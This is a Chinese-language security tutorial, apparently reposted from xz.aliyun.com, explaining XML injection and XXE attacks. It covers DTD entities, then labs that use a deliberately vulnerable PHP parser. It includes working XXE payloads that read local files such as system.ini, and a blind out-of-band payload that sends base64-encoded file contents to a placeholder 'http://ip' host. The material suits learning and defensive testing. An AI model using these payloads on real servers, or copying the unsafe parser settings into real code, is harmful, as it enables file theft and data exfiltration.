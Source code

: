 # [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)

## XXE是什么

描述XXE之前，先说一下普通的XML注入，下面是例子：

```xml
<?xml version="1.0" encoding="utf8">
<USER role="guest">用户输入</USER>
```

上面代码经过注入内容"User1</USER><USER role="admin">User2"之后，变成了：

```xml
<?xml version="1.0" encoding="utf8">
<USER role="guest">User1</USER>
<USER role="admin">User2</USER>
```

上面就是最简单的xml注入例子，但是实用性并不高；

XXE是什么，XXE就是指利用注入漏洞，注入一个外部实体；

## XML基础知识

XML文档有自己的一个规范格式，这个格式是由一个叫做DTD(document type definition)的东西控制的，也就是下面这个样子：

```xml
    <?xml version="1.0"?>//这一行是 XML 文档定义
    <!DOCTYPE message [
    <!ELEMENT message (receiver ,sender ,header ,msg)>
    <!ELEMENT receiver (#PCDATA)>
    <!ELEMENT sender (#PCDATA)>
    <!ELEMENT header (#PCDATA)>
    <!ELEMENT msg (#PCDATA)>
```

上面的DTD定义了XML的根元素是message，然后元素下面有一些子元素，那么XML必须这么写：

```xml
    <message>
    <receiver>Myself</receiver>
    <sender>Someone</sender>
    <header>TheReminder</header>
    <msg>This is an amazing book</msg>
    </message>
```

除了在DTD中定义元素，我们还能定义实体（对应XML标签中的内容）；

```xml
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe "test" >]>
```

上面定义元素为ANY表示可以接受任意元素，但是定义了一个XML实体，下面是其XML对应写法：

```xml
    <creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
    </creds>
```

使用&xxe对上面定义的实体进行调用，到时候输出时候就会替换成test；

## 划重点

1. 实体分为两种，内部实体和外部实体，上面的例子中是内部实体，但是实际上实体可以从外部的dtd文件引用；

    ```xml
        <?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
        <creds>
            <user>&xxe;</user>
            <pass>mypass</pass>
        </creds>
    ```

    这样对引用资源做的任何更新都会在文档中自动更新；

2. 实体除了可以分为内部实体和外部实体，也可以分为通用实体和参数实体；

    * 通用实体

        用&实体名;引用的实体，在DTD中定义，在XML文档中引用；

        ```xml
            <?xml version="1.0" encoding="utf-8"?>
            <!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]>
            <updateProfile>
                <firstname>Joe</firstname>
                <lastname>&file;</lastname>
                ...
            </updateProfile>
        ```

    * 参数实体

        用```% 实体名```**（空格不能少）** 在DTD中定义，并且只能在DTD中使用%实体名;引用；

        只有在DTD文件中，参数实体的声明才能引用其他实体；

        和通用实体一样，参数实体也能外部引用；

        ```xml
            <!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
            <!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
            %an-element; %remote-dtd;
        ```

## XXE怎么做

回顾上述代码，如下：

```xml
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
    <creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
    </creds>
```

既然能读dtd，那么一旦将file路径换成敏感文件路径，是否一样可以直接读取敏感文件；

### 实验一：有回显地读本地敏感文件（Normal XXE）

该实验模拟的是服务能接收并解析XML格式的输入并且有回显的时候，我们就可以输入自定义XML，引入外部实体，引用服务器上的文件；

下面是本地服务器解析XMl的php代码：

```php
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

payload

```xml
    <?xml version="1.0" encoding="utf-8"?> 
    <!DOCTYPE creds [  
    <!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
    <creds>&goodies;</creds>
```

结果如下:

![result](https://xzfile.aliyuncs.com/media/upload/picture/20181120002645-e7e63e5a-ec17-1.png)

上面显示了成功读取到了想要的文件并且展示，另一种是直接获取到文件然后将文件发送到目标服务器上，这需要依赖参数实体才能做到；

### 实验二：无回显地读取本地敏感文件（Blind OOB XXE）

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
